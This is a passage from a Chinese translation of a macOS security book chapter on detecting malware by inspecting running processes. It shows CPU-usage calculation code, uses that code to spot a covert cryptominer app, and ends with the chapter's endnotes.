你可以在❶看到第一次调用`proc_pid_rusage`，然后在❷看到第二次调用。这两次调用都传入了目标进程的相同进程 ID。接着，我们通过减去用户时间（`ri_user_time`）和系统时间（`ri_system_time`）来计算 CPU 时间，再将结果相加❸。

为了计算正在使用的 CPU *百分比*，我们首先将这个 CPU 时间从 Mach 时间转换为纳秒。列表 1-37 通过调用`mach_timebase_info`函数实现了这一点。

```
double cpuUsage = 0.0f;
mach_timebase_info_data_t timebase = {0};

mach_timebase_info(&timebase);
cpuTime = (cpuTime * timebase.numer) / timebase.denom;

cpuUsage = (double)cpuTime / delta / NSEC_PER_SEC * 100; 
```

列表 1-37：计算 CPU 使用百分比

然后我们将 CPU 时间除以指定的延迟和每秒的纳秒数乘以 100（因为我们需要得到百分比）。^(17)

现在，让我们运行包含此代码的*enumerateProcesses*，针对本章早些时候提到的未授权加密货币挖矿工具——Calendar 2 应用程序进行检测：

```
% **./enumerateProcesses**
...
(1641):/Applications/CalendarFree.app/Contents/MacOS/CalendarFree
...
CPU usage: 370.750173% 
```

由于应用程序在偷偷挖矿，它的 CPU 利用率竟然高达 370%！（在多核 CPU 上，CPU 利用率可以超过 100%。）我们可以通过运行内置的 macOS `ps`工具，指定日历应用程序的 PID，来确认程序的准确性：

```
% **ps u -p 1641**
USER   PID      %CPU ...
user   1641     372.4 ... 
```

尽管具体的百分比会随着时间的推移发生变化，但`ps`命令显示应用程序大约使用相同数量的 CPU。

### 结论

在本章中，你学习了如何从正在运行的进程中提取大量有用的信息，包括进程层级、代码信息等等。通过这些信息，你应该能够轻松检测到任何在 macOS 系统上运行的恶意软件。在下一章，我们将专注于如何以编程方式解析和分析支撑每个进程的 Mach-O 可执行二进制文件。

### 注释

1.    1.  想要了解更多关于审计令牌的信息，请参见 Scott Knight 的《审计令牌解释》，Knight.sc，2020 年 3 月 20 日，[*https://<wbr>knight<wbr>.sc<wbr>/reverse%20engineering<wbr>/2020<wbr>/03<wbr>/20<wbr>/audit<wbr>-tokens<wbr>-explained<wbr>.html*](https://knight.sc/reverse%20engineering/2020/03/20/audit-tokens-explained.html)。

1.    2.  Patrick Wardle，“分析 OSX.DazzleSpy”，Objective-See，2022 年 1 月 25 日，[*https://<wbr>objective<wbr>-see<wbr>.org<wbr>/blog<wbr>/blog<wbr>_0x6D<wbr>.html*](https://objective-see.org/blog/blog_0x6D.html)。

1.    3.  Patrick Wardle, “详细解析 (macOS) 平台的平滑操作员 (第二部分)”，Objective-See，2023 年 4 月 1 日，[*https://<wbr>objective<wbr>-see<wbr>.org<wbr>/blog<wbr>/blog<wbr>_0x74<wbr>.html*](https://objective-see.org/blog/blog_0x74.html)。

1.    4.  Patrick Wardle, “释放 ElectroRAT”，Objective-See，2021 年 1 月 5 日，[*https://<wbr>objective<wbr>-see<wbr>.org<wbr>/blog<wbr>/blog<wbr>_0x61<wbr>.html*](https://objective-see.org/blog/blog_0x61.html)。

1.    5.  Aedan Russel, “ChromeLoader: 一种强势的恶意广告软件”，Red Canary，2022 年 5 月 25 日，[*https://<wbr>redcanary<wbr>.com<wbr>/blog<wbr>/chromeloader<wbr>/*](https://redcanary.com/blog/chromeloader/)。

1.    6.  Mitch Datka, “CrowdStrike 发现新的 MacOS 浏览器劫持活动，” *CrowdStrike*，2022 年 6 月 2 日， [*https://<wbr>www<wbr>.crowdstrike<wbr>.com<wbr>/blog<wbr>/how<wbr>-crowdstrike<wbr>-uncovered<wbr>-a<wbr>-new<wbr>-macos<wbr>-browser<wbr>-hijacking<wbr>-campaign<wbr>/*](https://www.crowdstrike.com/blog/how-crowdstrike-uncovered-a-new-macos-browser-hijacking-campaign/)。

1.    7.  Patrick Wardle, “Mac App Store 中的隐秘加密货币矿工？”，Objective-See，2018 年 3 月 11 日，[*https://<wbr>objective<wbr>-see<wbr>.org<wbr>/blog<wbr>/blog<wbr>_0x2B<wbr>.html*](https://objective-see.org/blog/blog_0x2B.html)。

1.    8.  请参阅“App Review Guidelines”，苹果，[*https://<wbr>developer<wbr>.apple<wbr>.com<wbr>/app<wbr>-store<wbr>/review<wbr>/guidelines<wbr>/*](https://developer.apple.com/app-store/review/guidelines/)。

1.    9.  Patrick Wardle, “爱与. . . 恶意软件并存？” Objective-See，2023 年 2 月 14 日，[*https://<wbr>objective<wbr>-see<wbr>.org<wbr>/blog<wbr>/blog<wbr>_0x72<wbr>.html*](https://objective-see.org/blog/blog_0x72.html)。

1.  10.  有关此攻击的更多细节，包括有效负载的完整分析，请参阅我的博客文章，“2019 年 Mac 恶意软件：OSX.Yort”，Objective-See，2020 年 1 月 1 日，[*https://<wbr>objective<wbr>-see<wbr>.org<wbr>/blog<wbr>/blog<wbr>_0x53<wbr>.html#osx<wbr>-yort*](https://objective-see.org/blog/blog_0x53.html#osx-yort)。

1.  11.  要了解更多关于 macOS 上进程树的信息，请参阅 Jaron Bradley, “嫁接苹果树：构建有用的进程树”，在 Objective by the Sea，夏威夷毛伊岛，2020 年 3 月 12 日发表，[*https://<wbr>objectivebythesea<wbr>.org<wbr>/v3<wbr>/talks<wbr>/OBTS<wbr>_v3<wbr>_jBradley<wbr>.pdf*](https://objectivebythesea.org/v3/talks/OBTS_v3_jBradley.pdf)。

1.  12.  Jonathan Levin, “launchd，我来了”，2015 年 10 月 7 日，[*http://<wbr>newosxbook<wbr>.com<wbr>/articles<wbr>/jlaunchctl<wbr>.html*](http://newosxbook.com/articles/jlaunchctl.html)。

1.  13.  请参阅 [*https://<wbr>objective<wbr>-see<wbr>.com<wbr>/products<wbr>/taskexplorer<wbr>.html*](https://objective-see.com/products/taskexplorer.html)。

1.  14.  有关此主题的更多内容，请参见 Zhuowei Zhang，“从 dyld_shared_cache 中提取库文件”，*Worth Doing Badly*，2018 年 6 月 24 日，[*https://<wbr>worthdoingbadly<wbr>.com<wbr>/dscextract<wbr>/*](https://worthdoingbadly.com/dscextract/)。

1.  15.  Patrick Wardle，“拆解未被发现的 (OSX) Coldroot RAT”，Objective-See，2018 年 2 月 17 日，[*https://<wbr>objective<wbr>-see<wbr>.org<wbr>/blog<wbr>/blog<wbr>_0x2A<wbr>.html*](https://objective-see.org/blog/blog_0x2A.html)。

1.  16.  “proc_pid_rusage 获取的 cpu_time 在 macOS M1 芯片上不符合预期”，Stack Overflow，[*https://<wbr>stackoverflow<wbr>.com<wbr>/questions<wbr>/66328149<wbr>/the<wbr>-cpu<wbr>-time<wbr>-obtained<wbr>-by<wbr>-proc<wbr>-pid<wbr>-rusage<wbr>-does<wbr>-not<wbr>-meet<wbr>-expectations<wbr>-on<wbr>-the<wbr>-macos*](https://stackoverflow.com/questions/66328149/the-cpu-time-obtained-by-proc-pid-rusage-does-not-meet-expectations-on-the-macos)。

1.  17.  你可以在 Howard Oakley 的文章中阅读更多关于 Mach 时间和纳秒转换的话题，“更改 Apple Silicon Mac 中的时钟”，*The Eclectic Light Company*，2020 年 9 月 8 日，[*https://<wbr>eclecticlight<wbr>.co<wbr>/2020<wbr>/09<wbr>/08<wbr>/changing<wbr>-the<wbr>-clock<wbr>-in<wbr>-apple<wbr>-silicon<wbr>-macs<wbr>/*](https://eclecticlight.co/2020/09/08/changing-the-clock-in-apple-silicon-macs/)。
